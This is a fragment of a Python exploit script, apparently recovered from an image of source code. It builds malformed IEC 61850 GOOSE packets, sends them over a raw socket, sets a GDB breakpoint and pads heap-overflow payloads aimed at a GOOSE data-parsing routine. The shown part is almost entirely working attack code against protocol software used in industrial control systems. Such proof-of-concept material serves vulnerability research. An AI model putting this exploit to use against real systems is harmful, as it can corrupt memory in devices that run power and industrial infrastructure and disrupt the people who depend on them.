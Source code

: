 ```python
    buf += el(0x10+1)
    buf += p8(0x0)
    if payload2:
        buf += payload2
    else:
        buf += b"B"*0x10

    return buf

def build_goose(len_data):
    buf = p8(0x80) #gocbref
    buf += el(len(gocbref))
    buf += gocbref
    buf += p8(0xab) # all data
    buf += el(len_data)
    buf = el(len(buf)) + buf
    return buf

def combine_pkt(goose, data):
    buf = p8(0x61)
    buf += goose
    buf += data
    return buf

def print_pkt(pkt):
    buf = "uint8_t buf[] = {"
    for b in pkt:
        buf += f"{hex(b)}, "

    buf += "}"
    print(buf)
    print("")

def send_pkt(pkt):
    print("Sending: ", len(pkt))
    s = socket.socket(socket.AF_PACKET, socket.SOCK_RAW)
    s.bind(('lo', 0))

    print_pkt(pkt)

    s.send(pkt)

def get_overflow(sz):
    return (sz*8 + 248) // 8

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
# pwndbg tele command
gdbscript = '''
break *0x406baf
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start(argv, env=env)

# initial allocation of dataSetValues
# parseAllDataUnknownValue
payload = b"A"*0x18
```